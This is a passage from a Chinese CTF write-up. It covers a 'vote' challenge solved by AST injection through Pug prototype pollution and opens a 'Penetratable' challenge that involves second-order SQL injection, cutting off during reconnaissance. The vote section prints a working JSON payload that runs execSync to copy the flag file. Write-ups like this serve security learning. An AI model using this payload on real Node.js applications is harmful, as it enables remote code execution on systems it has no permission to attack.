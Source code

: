 ## vote

###  考点

AST配合Pug模板引擎实现注入

https://blog.p6.is/AST-Injection/

https://xz.aliyun.com/t/10218

###  wp

![image-20220419225503783](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204192259747.png)

主要代码，需要满足`if语句`,从而可以执行`compile`语句

payload

```
{
"__proto__.hero":{
	"name":"奇亚纳"
},
"__proto__.block": {
 	"type": "Text", 
    "line": "process.mainModule.require('child_process').execSync('cat /flag > /app/static/1.txt')"
    }
}

```

因为**环境不出网，所以就只能写入本地后**，再访问

![image-20220419225732784](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204192259588.png)

##  Penetratable

###  考点：

1. 找前端js文件获取一些信息系
2. 注册和登录界面二次sql注入
3. 跑脚本找md5对应的值
4. 提权

###  wp

看到界面，只有登录和注册界面，首先dirsearch扫一波

![image-20220413231415274](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204192246392.png)

好像只能获得前端的一些js代码

看到`req.js`
